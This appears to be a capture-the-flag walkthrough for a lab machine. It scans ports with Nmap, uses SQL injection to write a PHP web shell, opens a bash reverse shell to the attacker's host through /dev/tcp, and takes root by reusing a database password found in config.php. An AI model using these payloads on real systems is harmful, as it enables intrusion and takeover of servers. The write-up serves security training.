

## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.116 -o allPorts
```

```
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 62
4566/tcp open  kwtc       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p22,80,4566,8080 -sCV 10.10.11.116 -o targeted
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
```

First, we will check the web server running on port 80. We can see a web page which allows us send a message to a group (countries):


We add a new message and see that the output is reflected in the page.


We can try to inject some SQL commands in the input field. We add a single quote (`'`) and see that we get an SQL error:
```
Brazil' --
```
```
Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33 Stack trace: #0 {main} thrown in /var/www/html/account.php on line 33
```

This confirms that the input is vulnerable to SQL injection. We can try to enumerate the database:
```sql
UNION SELECT database() --
```
```
registration
```

## User Exploitation

We can try write a file to the server using SQL injection:
```sql
UNION SELECT 
    "<?php SYSTEM($_REQUEST['cmd']); ?>" 
INTO OUTFILE
    '/var/www/html/reverse.php'-- -
```

We can now access the web shell at `http://10.10.11.116/reverse.php`:
```bash
curl "http://10.10.11.116/reverse.php?cmd=whoami"
```
```
www-data
```

We can now try to get a reverse shell. First, we will set up a listener on our machine:
```bash
nc -lvnp 4444
```

Then, we will send the reverse shell command to the target machine:
```bash
curl "http://10.10.11.116/reverse.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.2/4444 0>%261'"
whoami
```
```
www-data
```

## Root Exploitation

We find a file named `config.php` in the web directory:
```php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

We can use these credentials to change user to root:
```bash
su root
Password: uhc-9qual-global-pw
whoami
```
```
root
```

## Conclusion

In this machine, we exploited an SQL injection vulnerability to write a web shell to the server. We then used the web shell to get a reverse shell and access the machine as the `www-data` user. Finally, we found database credentials in a configuration file and used them to change to the root user.
